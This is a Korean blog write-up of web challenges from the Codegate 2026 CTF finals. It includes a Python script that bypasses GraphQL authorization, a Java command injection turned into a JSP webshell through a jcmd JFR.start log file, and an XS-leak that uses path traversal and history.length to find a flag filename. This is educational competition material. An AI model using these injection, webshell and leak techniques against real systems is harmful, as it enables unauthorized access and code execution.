

[2025 Codegate Quals](https://blog.xss.kr/posts/codegate/)에 이어서 주니어부 6등으로 본선을 가게 되었다.  
본선을 간 건 좋긴한데.. 역시 AI판이 되었다. 물론 엔키가 낸 문제답게 다른 해외 CTF들보단 LLM 딸깍으로 풀리는 문제가 많이 없었던건 사실이지만, 주니어부에선 그냥 누구 AI가 한 문제 더 푸냐의 싸움이었던거 같다.
나도 코덱스 5세션 돌려놓고 하긴해서 할 말은 없긴하지만 CTF판이 이렇게 되어버린게 아쉬운건 사실이다.

각설하고 AI가 푼 문제라고 그냥 끝내버리면 내가 얻는게 없으니 웹 문제들을 업솔빙하고 라이트업을 써보기로 했다.

---

## VaultNote
블랙박스고 웹 최다 솔브난 문제이다.

노트 보여주는 서비스다. 노트 불러올 때 패킷을 보면  
딱봐도 graphql 인젝션하라는걸 알 수 있다.

id 2번으로 조회하려고 하면 Forbidden이 뜨는데 `node(id: "2")`를 직접 호출하면 권한 체크를 우회할 수 있다.

```py
import requests

URL = "http://13.125.201.59/graphql"

query = """
query {
  node(id: "2") {
    __typename
    ... on Note {
      id
      title
      content
      author {
        username
        role
      }
    }
  }
}
"""

res = requests.post(URL, json={"query": query})

print(res.json())
```

```json
{'data': {'node': {'__typename': 'Note', 'id': '2', 'title': 'CONFIDENTIAL: Infrastructure Access Key', 'content': 'codegate2026{gR4phQL_1s_1nt3r4st1ng!!}', 'author': {'username': 'charlie', 'role': 'admin'}}}}
```

`codegate2026{gR4phQL_1s_1nt3r4st1ng!!}`

---

## Juice of Apple, Vegetable, Apricot
Java로 만들어졌고 Dashboard가 구현되어 있다.  
딴 건 다 필요없고

```java
  String pid = req.getParameter("pid");
  if (pid == null || pid.isEmpty()) {
      resp.sendError(500);
      return;
  }

  String cmd = "jcmd " + pid + " VM.version";
  Process p = Runtime.getRuntime().exec(cmd);

  try {
      if (!p.waitFor(3, TimeUnit.SECONDS)) {
          p.destroyForcibly();
          resp.sendError(500);
          return;
      }
  } catch (InterruptedException e) {
      p.destroyForcibly();
      Thread.currentThread().interrupt();
      resp.sendError(500);
      return;
  }
```

pid에 아무거나 집어넣을 수 있기에 command injection이 터진다.
문제는 `Runtime.getRuntime().exec(cmd);`로 실행하면 `/bin/sh`가 아니라 java 내부적으로 실행하는거라 뒤에 `VM.version`을 날리기가 어렵다는건데 JFR이란걸 써서 해결했다.  
대충 jvm 내부 이벤트를 조작할 수 있는 머시기라는데 아래처럼 넣으면 jvm이 4초동안 flight recorder를 켜고 들어오는 이벤트 데이터들을 x.jsp에 쓰게 된다.
```bash
jcmd 1 JFR.start settings=default exceptions=all duration=4s filename=/usr/local/tomcat/webapps/ROOT/WEB-INF/views/x.jsp
```

그 4초 사이에 `/x<%=Runtime.getRuntime().exec("/readflag").inputReader().readLine()%>` 를 보내게 되면 JFR 로그파일에 jsp 코드를 넣을 수 있다.
tomcat이 응답을 리턴할 때 이 코드가 실행되어 버려서 플래그가 나온다.

`codegate2026{51672f8a02079d89bd75ae941b5161350c28737a2694d975c059b93af5b89c78c3b61ba9dd258f9190bb5827ddceba3d4572cc49dcfee6212d9048214e0db933ef7bf9}`

---

## ERP System

필력이 딸려서 나중에 쓸듯하다.

---

## Memo

```
RUN if [ -f /app/src/images/FLAG.png ]; then \
    name=$(openssl rand -hex 8) && \
    mv /app/src/images/FLAG.png /app/src/images/flag_$name.png; \
    fi
```

파일 이름만 알아내면 플래그 이미지를 얻을 수 있다.


image service에 특이한 코드가 있는데

```typescript
getAdminImagePath(filename: string): string | null {
    const imagePath = this.resolveSafePath(filename);

    if (imagePath && existsSync(imagePath)) return imagePath;

    const files = readdirSync(this.getImageDir());
    const matched = files.find(file => file.startsWith(filename));

    if (!matched) return null;

    return this.resolveSafePath(matched);
}
```

이걸 보면 `filename` 맨 앞 글자만 맞아도 플래그의 정확한 경로를 리턴해준다.
근데 이 기능은 어드민만 사용할 수 있어서 봇을 사용해 잘 Xs-leak 해줘야 한다.

```typescript
app.use(helmet({
  contentSecurityPolicy: {
    directives: {
      defaultSrc: ["'self'"],
      frameAncestors: [`*`],
      objectSrc: [`'none'`],
      connectSrc: ["'self'"],
      baseUri: [`'self'`],
    },
  }
}));
```

물론 CSP도 꽤나 빡세게 잡혀있다.

내가 푼 방식은 `history.length`를 판별하는 방향으로 했다.

```typescript
async getImageAdmin(
    @Query('filename') filename: string,
    @Req() req: Request,
    @Res() res: Response
): Promise<void> {
    const site = req.get('sec-fetch-site');

    if (site !== 'same-origin') throw new HttpException('Unauthorized.', 401);

    if (!filename) throw new HttpException('filename is required.', 400);

    const imagePath = this.imageService.getAdminImagePath(filename);
    if (!imagePath) return;

    return res.sendFile(imagePath);
}
```

flag prefix가 맞다면 `res.sendFile(imagePath)`로 PNG를 응답하고 response를 종료해버리는데 못 찾으면 `if (!imagePath) return;`만 하고 응답이 안끝난다.

```js
  const fetchMemo = async () => {
    const { result } = await window.appCommon.getJson(`/api/memo/shared/${key}`);
    if (!result || result.status !== 200) {
      alert((result && result.message) || "Failed to load shared memo.");
      location.href = "/";
      return null;
    }

    return result.data;
  };
```

key를 `../../image/admin?filename=<prefix>`로 주면 `same-origin`도 맞출 수 있는 상태에서 LFI로 xs-leak 포인트에 접근할 수 있게 된다.

근데 여기서 문제가 `window.appCommon.getJson` 응답을 무조건 json으로 받고 있다는건데 위에서 말한거처럼 플래그 파일명 prefix가 맞는 경우에는 PNG 바이너리를 반환하기에 json으로 변환하는 과정에서 오류가 난다.

이 때문에 플래그 앞글자가 맞다면 `!result`를 만족시켜서 `location.href = "/"` 가 실행되게 되고  
아니면 오류터져서 리다이렉트를 하지 않기에 리다이렉트 횟수가 차이나게 된다.

csp 맞춰서 iframe으로 파일명 한 글자씩 뽑아서 `flag_ec59f3f37a84ff4e.png` 얻었고 플래그를 땄다.



`codegate2026{HTTP2_has_many_streams!}`